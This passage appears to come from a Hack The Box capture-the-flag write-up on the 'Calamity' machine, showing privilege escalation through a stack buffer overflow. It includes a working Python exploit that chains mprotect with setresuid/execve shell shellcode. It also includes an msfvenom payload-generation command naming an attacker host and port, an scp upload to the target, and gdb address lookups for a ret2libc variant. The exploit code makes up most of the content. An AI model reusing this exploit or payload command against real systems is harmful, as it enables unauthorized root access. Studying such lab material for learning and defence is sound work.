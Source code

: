 Get the function address of `mprotect`, 

> p mprotect
>>  $1 = {<text variable, no debug info>} 0xb7efcd50 <mprotect>

Let's grab a shellcode from [here](https://www.soldierx.com/bbs/201308/HOWTO-x86-setresuid-execve-shellcode-44-bytes)

So, the whole process of this is: glibc_mprotect->buffer_with_shellcode->mprotect_params.

```python
#!/usr/bin/env python3
import struct

scode = b"\x90\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xa4\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

ret_address = 0xbffff5b0 # Replace vulnaddr here

mprotect = struct.pack("<L", 0xb7efcd50) # Replace with mprotect addr
stackadd = struct.pack("<L", 0xbfedf000) # Replace with stack addr in the mapping
stacksize = struct.pack("<L", 0x121000) 
setread = b'\x07\x00\x00\x00'


buf = b""
buf += scode.ljust(76, b"\x90") # ljust sets a fixed length buffer, regardless of payload length and writes our rop chain, the padding is \x90=nop
buf += mprotect
buf += struct.pack("<L", ret_address)
buf += stackadd
buf += stacksize
buf += setread

with open('tmpbuf','wb') as buffef:
	buffef.write(buf)
```

![rooted](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamati-11.webp)

## Ret2libc

(1) libc_execl->libc_exit->pointer_path_to_bin->NULL->NULL

Generate shellcode:

> msfvenom -p linux/x86/exec CMD=/bin/bash LHOST=10.10.15.174 LPORT=443 PrependSetuid=true -f elf -o booj.elf

Send it to the box:

> scp booj.elf xalvas@10.10.10.27:/tmp

Find the function we need:

> gdb-peda$ p execl
>> $1 = {<text variable, no debug info>} 0xb7ecaa80 <__GI_execl>
> gdb-peda$ p exit
>> $2 = {<text variable, no debug info>} 0xb7e489d0 <__GI_exit>
